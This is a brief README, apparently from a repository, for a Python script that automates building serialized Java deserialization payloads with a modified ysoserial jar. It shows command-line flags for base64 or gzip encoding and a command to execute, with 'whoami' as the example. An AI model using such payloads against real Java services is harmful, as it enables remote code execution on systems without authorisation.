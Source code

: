 ## Script to automate a creation of payload serialized to exploit java deserialization

ex: python3 bla.py --path "/home/s1xdev/brn/red/ysoserial-modified/target/" --b64 --cmd whoami <br>
ex: python3 bla.py --path "/home/s1xdev/brn/red/ysoserial-modified/target/" --gzp --cmd whoami <br>

--b64 : rO0 in Base64 <br>
--gzp : H4sIA" when gzip(base64)<br>
--cmd : command to exec<br>
--path : ysoserial-modified.jar path<br>


